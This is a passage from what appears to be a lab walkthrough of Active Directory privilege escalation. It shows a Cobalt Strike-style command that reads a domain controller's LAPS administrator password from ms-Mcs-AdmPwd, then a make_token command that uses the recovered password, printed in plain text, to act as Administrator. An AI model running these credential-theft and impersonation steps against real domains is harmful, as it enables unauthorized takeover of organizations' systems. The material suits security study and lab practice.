 Now lets get Admin Password Command to execute

```bash
powerpick Get-DomainComputer -Identity VALENOR-DC01.lab.local  -Properties ms-Mcs-AdmPwd
```

![alt text](../assets/images/dacl119.png)

now we can make token for Administrator and get access.

```bash
make_token .\Administrator VS-ni-q;qNg70#
```

![alt text](../assets/images/dacl120.png)
